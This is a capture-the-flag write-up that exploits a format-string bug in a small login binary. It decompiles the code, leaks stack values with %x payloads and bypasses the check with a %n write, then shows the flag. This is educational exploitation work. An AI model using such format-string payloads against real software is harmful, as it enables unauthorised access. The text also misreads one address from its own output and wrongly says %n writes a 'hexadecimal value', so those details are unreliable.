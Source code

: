 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n", __ptr);
  printf("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    printf("Invalid login information.");
  }
  else {
    printf("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read values on the stack, and write to values elsewhere.

I played around with the ```%x``` format specifier, which prints out the values on the stacks, to get things started with. After some experimentation, a few values on the stack were printed out. 

```
$ python2 -c 'print "%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x"' | ./logmein
user = 0x11882a0
Enter your username:
Enter password for user: 40202f-0-0-11882a4-19-be9a79d0-Invalid login information.
```
The value ```0x12fe2a4``` was found on the stack, which meant that memory address of the username (4 bytes off ```user```) was present, but not the actual address of ```user```. The input, capped to a total of 20 characters, was too long to show the other variables on the stack. 

Removing the hyphens (though this makes things less clear), other values further up the stack can be shown:
```
$ python2 -c 'print "%x%x%x%x%x%x%x%x%x"' | ./logmein
user = 0x23272a0
Enter your username:
Enter password for user: 40202f0023272a419158a692023272a00a0287083
Invalid login information.
```

The address of the user can be found at the seventh 4-byte value on the stack. We confirm this by using ```%7$x``` as an input:
```
$ python2 -c 'print "%7$x"' | ./logmein
user = 0xdb32a0
Enter your username:
Enter password for user: db32a0
Invalid login information.
```

Now, the only thing left is to write to this value. This can be done by using the ```%n``` specifier. The (hexadecimal) value to the left of the specifier is written to the address specified.

**Solution**
```
$ python2 -c 'print "123%7$n"' | ./logmein
user = 0x15d3010
Enter your username:
Enter password for user: 123
adsf
Successfully logged in!
```

**Flag**
```
flag{why_does_printf_even_have_%n}
```
